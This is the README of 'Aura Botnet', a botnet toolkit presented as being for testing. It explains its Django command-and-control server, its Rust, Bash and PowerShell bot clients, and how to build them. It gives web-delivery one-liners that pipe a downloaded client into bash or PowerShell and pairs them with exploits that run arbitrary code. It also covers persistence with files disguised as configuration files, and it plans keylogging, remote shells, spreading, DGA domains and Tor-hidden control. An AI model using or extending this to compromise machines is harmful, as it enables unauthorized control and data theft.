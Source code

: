 # Aura Botnet

C&C Server
---
The botnet's central C&C server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx
* Django includes a very intuitive and useful admin console that can be used for
managing bots and adding commands


The admin console located at `http://your_server:django_port/admin` can be
accessed after setting up the database and a superuser (see below).

Database
---
The Django server is currently configured for use with mysql/mariadb. The
current configuration can be changed in the *settings.py* file under
`django-server/aura`. You would, of course, need to setup the database on your
machine. You may wish to use postgresql, or even sqlite instead; this
easy to do thanks to Django's portable database API. More information on
configuring this and the admin console can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Bot Client
---
The primary clients for Windows and Linux are written in Rust. Alternate clients
are written in Bash and Powershell. The client will gather relevant system
information and send it to the C&C server to register the new bot.
Identification is done by initially creating a file containing random data --
referred to as the *seed* throughout the code -- which will then be hashed each
time the client runs to identify the client and authenticate with the C&C
server. It will then install all the files in the folder specified in the code,
and initialize the system service or schedule a task with the same privileges
that the client was run with. The default settings have the client and other
files masquerading as configuration files.

Usage
---
You will need Rust installed on the platform that you wish to compile for.
Unfortunately, there is no simple method of cross-compiling that I am aware of.
Go into the client directory (`client/rust-linux` or `client/rust-windows`) and
run:

```
cargo build --release
```

The binary will be sent to `client/rust-*/target/release/`.

*NOTE:* For the C++ client, go into the client directory `alt-client/cpp/cpp-linux`
and run `make`.

The client executable or script simply needs to be run in the same folder as any necessary components
(systemd services for Linux clients and launcher.vbs for Powershell) on the
target machine, or installed via web delivery (see below).

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Configuring Commands
---
The client periodically communicate with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands can be set
to run for specific bot groups defined by operating system and user privilege.
This is specified in `django-server/groups.json`. The only reserved group
numbers are `-1`, for priority commands that are run by all bots, and `-2`, for
default commands that are run by all bots only if there is no other command to run;
you can also assign commands to individual bots using the hash of their seed.
Each command can be given a start time and end time. Oneshot commands will only
run once on each bot. These can easily be managed through the Django shell or
admin console.

Misc.
---
Because this is for testing purposes, the C&C server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

Since this is only for testing, I have not implemented any means of spreading.
I may use very controlled means of doing so when I implement support
for client modules.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
- Add support for "modules" to be run easily on arbitrary clients. E.g.: Start
an interactive shell, grab arbitrary system files, install keylogger, spread
using various exploits etc.
- Design system to make certain bots into node servers that act as disposable
command and control servers
- Create clients for mobile devices
- Implement compatibility with running C&C server as a hidden Tor service

<h2>This repo is for testing purposes only. This is not meant to be
implemented in any real world applications except for demonstrations.</h2>

